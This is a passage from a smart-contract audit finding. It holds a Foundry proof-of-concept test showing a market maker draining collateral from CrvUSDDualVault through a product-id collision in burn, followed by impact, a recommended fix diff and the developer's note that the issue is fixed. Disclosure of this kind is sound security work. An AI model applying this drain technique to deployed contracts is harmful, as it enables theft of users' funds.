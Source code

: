 ```solidity

    // Maker steals collateral by calling burn
    (bool success,) = Maker(maker).execute(
        address(dualVault),
        abi.encodeWithSelector(
            CrvUSDDualVault.burn.selector,
            expiry,
            mintParams.anchorPrice,
            1
        )
    );
    assertTrue(success, "failed to call burn");

    // maker has all the collateral
    assertEq(IERC20(crvUSD).balanceOf(maker), totalCollateral);

    // burn will fail here, vault is insolvent
    vm.expectRevert("insufficient shares to redeem");
    vm.prank(user);
    dualVault.burn(expiry, anchorPrice, premiumPercentage);
}
```

#### Impact

Critical. The attacker can drain assets from existing agreements.

#### Recommendation

The `CrvUSDDualVault` contract ought to differentiate positions assigned to minters or market makers by using an `isMaker` flag within the product id calculation, similarly to how [`SimpleSmartTrendVault.getProductId`](https://github.com/sofa-org/sofa-protocol/blob/2b45e2bd01141cb6dd8302f8ea8579de0fbc6c9e/contracts/vaults/SimpleSmartTrendVault.sol#L214-L216) does.

To achieve this, the contract could modify its `getProductId` method as follows:

```diff
-    function getProductId(uint256 expiry, uint256 anchorPrice, uint256 isMaker) public pure returns (uint256) {
-        return uint256(keccak256(abi.encodePacked(expiry, anchorPrice, isMaker)));
+    function getProductId(uint256 expiry, uint256 anchorPrice, uint256 premiumPercentage, uint256 isMaker) public pure returns (uint256) {
+        return uint256(keccak256(abi.encodePacked(expiry, anchorPrice, premiumPercentage, isMaker)));
```

This way, usages of the method can distinguish between minter and maker positions, preventing the shown collision from occurring.

#### Developer Response

Fixed in the commit [2d72ad1abd940d46675921cad07454f85c7e03ab](https://github.com/sofa-org/sofa-protocol/commit/2d72ad1abd940d46675921cad07454f85c7e03ab).
